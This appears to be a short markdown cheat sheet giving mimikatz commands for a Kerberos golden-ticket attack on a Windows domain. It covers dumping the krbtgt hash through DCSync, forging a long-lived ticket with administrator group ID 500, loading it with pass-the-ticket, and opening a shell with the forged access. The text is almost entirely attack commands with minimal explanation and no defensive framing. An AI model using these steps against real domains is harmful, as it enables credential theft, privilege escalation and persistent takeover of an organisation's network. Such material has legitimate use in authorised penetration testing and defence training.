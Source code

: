 
start mimikatz.exe on a windows machine and you get a prompt

`mimikatz # `

to get the krbtgt accounts hash (and other info):  (this requires dcsync permissions)
`lsadump::dcsync /domain:mydomain.com /user:krbtgt`

to get a golden ticket (500 = administratos):
`kerberos::golden /domain:mydomain.com /sid:S-1-1-12-1234567890-1234567890-1234567890 /rc4:0e2eb8158c27bed09861033026be4c21 /id:500 /user:WhateverNameYouWant`
This will save a ticket file
This ticket is valid for a long time

pass a ticket - load it into memory with:
`kerberos::ptt ticket.kirbi`

use the ticket by opening a cmd with:
`misc::cmd`
whoami will still say you're using the old account but you have the access of the ticket